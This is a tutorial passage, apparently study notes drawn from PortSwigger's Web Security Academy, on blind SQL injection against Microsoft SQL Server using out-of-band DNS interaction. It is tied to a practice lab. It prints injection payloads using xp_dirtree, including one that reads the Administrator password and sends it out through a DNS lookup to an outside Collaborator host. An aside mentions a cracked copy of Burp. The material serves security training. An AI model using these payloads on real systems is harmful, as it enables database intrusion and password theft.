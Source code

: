 The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

```!
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This will cause the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.


关于Burp Collaborator 的使用可以参看这篇[文章](https://blog.csdn.net/fageweiketang/article/details/89073662)

>虽然我是破解版，但是我的Collaborator 还是可以使用的。

**LAB**



[Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)



Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

```!
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

#### Note

There are various ways of triggering out-of-band interactions, and different techniques apply on different types of database. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

**LAB**

**PRACTITIONER**
